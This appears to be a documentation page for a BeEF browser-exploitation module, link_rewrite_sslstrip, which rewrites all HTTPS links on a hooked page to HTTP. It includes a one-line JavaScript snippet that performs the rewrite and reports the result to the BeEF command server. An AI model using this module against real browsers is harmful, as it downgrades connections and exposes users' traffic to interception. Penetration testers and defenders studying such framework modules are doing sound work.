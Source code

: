 ## Summary

* **Objective**: Replace all HTTPS links to HTTP
* **Authors**: bcoles
* **Browsers**: All

* [Code](https://github.com/beefproject/beef/tree/master/modules/hooked_domain/link_rewrite_sslstrip)

## Internal Working

replace the protocol portion of all links from HTTPS to HTTP.

```js

beef.net.send('<%= @command_url %>', <%= @command_id %>, 'result='+beef.dom.rewriteLinksProtocol(old_protocol, new_protocol, selector)+' '+old_protocol+' links rewritten to '+new_protocol);

```

## Feedback
